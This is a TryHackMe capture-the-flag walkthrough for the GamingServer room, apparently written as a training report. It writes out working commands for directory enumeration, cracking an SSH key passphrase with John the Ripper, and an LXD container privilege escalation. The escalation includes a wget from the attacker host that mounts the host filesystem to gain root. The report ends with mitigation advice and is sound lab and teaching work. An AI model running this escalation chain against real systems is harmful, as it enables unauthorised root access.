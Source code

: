 # 🟩GamingServer – Try Hack Me (THM) Walkthrough Report  

**Prepared by:** Nishanth Antony  
**Date:** August 29, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps  
**Objective:** Identify open ports and hidden directories on the target.  
**Commands Used:**  
- `rustscan $IP`  
- `gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`  

**Findings:**  
- Open ports: SSH (22) and HTTP (80).  
- Gobuster revealed a hidden `/secret` directory containing an SSH key.  

---

## 2. Exploitation Process  
**Step 1 – SSH Key Retrieval and Cracking**  
- Downloaded `SecretKey` from `/secret`.  
- Converted to hash format:  
  `python ssh2john.py SecretKey > id_rsa.hash`  
- Cracked passphrase with John the Ripper:  
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
  Cost 2 (iteration count) is 1 for all loaded hashes
  Note: This format may emit false positives, so it will keep trying even after
  finding a possible candidate.
  Press 'q' or Ctrl-C to abort, almost any other key for status
  letmein          (id_rsa)
  1g 0:00:00:12 DONE (2020-08-30 22:24) 0.08278g/s 1187Kp/s 1187Kc/s 1187KC/s *7¡Vamos!
  Session completed
  ```
- Identified username `john` from `https://$IP/index.html` source code.  

**Step 2 – SSH Access as John**  
- Connected via SSH:  
  `ssh john@$IP -i ./SecretKey`  
- Entered passphrase `letmein` to log in.  
- Retrieved user flag:  
  ```bash
  cat user.txt
  a****************e
  ```
- Outcome: User flag retrieved.  

**Step 3 – Privilege Escalation via LXD**  
- Noticed membership in `lxd` group via `id` command.  
- Built Alpine image locally:  
  ```bash
  git clone https://github.com/saghul/lxd-alpine-builder.git
  cd lxd-alpine-builder
  ./build-alpine
  ```
- Started web server:  
  `python -m SimpleHTTPServer`  
- Downloaded image to target:  
  `cd /tmp`  
  `wget http://$LHOST:8000/alpine-v3.12-x86_64-20200830_2354.tar.gz`  
- Imported and initialized container:  
  ```bash
  lxc image import ./alpine-v3.12-x86_64-20200830_2354.tar.gz --alias myimage
  lxc init myimage ignite -c security.privileged=true
  lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
  lxc start ignite
  lxc exec ignite /bin/sh
  whoami
  ```
- Retrieved root flag:  
  ```bash
  cat mnt/root/root/flag.txt
  2************c
  ```
- Outcome: Root flag retrieved.  

---

## 3. Proof of Concept (PoC)  
- **SSH Key Cracking:**  
  `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash` yielded `letmein`.  
- **LXD Privilege Escalation:**  
  Imported Alpine image and mounted root filesystem to gain root shell.  

---

## 4. Privilege Escalation  
- Exploited LXD container privileges to mount the root filesystem and access the root flag.  

---

## 5. Mitigation Recommendations  
- **Web Server Hardening:**  
  - Restrict access to sensitive directories (e.g., `/secret`).  
- **SSH Security:**  
  - Avoid exposing private keys; enforce strong passphrases and restrict key usage.  
- **Privilege Management:**  
  - Limit `lxd` group membership to authorized users only.  
  - Disable unprivileged container creation if not needed.  
- **Patch Management:**  
  - Update OpenSSH and web server software to latest versions.  
  - Monitor for unauthorized container activity.  

---

## 6. Lessons Learned  
- **Exposed Credentials:** Hidden SSH keys are vulnerable if accessible via web directories.  
- **LXD Exploitation:** Membership in `lxd` group can lead to privilege escalation.  
- **Enumeration Importance:** Thorough directory scanning reveals critical assets.  

---

## 7. Skills Practiced  
- Network scanning (rustscan)  
- Web directory enumeration (gobuster)  
- SSH key cracking (ssh2john, john)  
- LXD privilege escalation  
- Secure reporting and mitigation strategies  
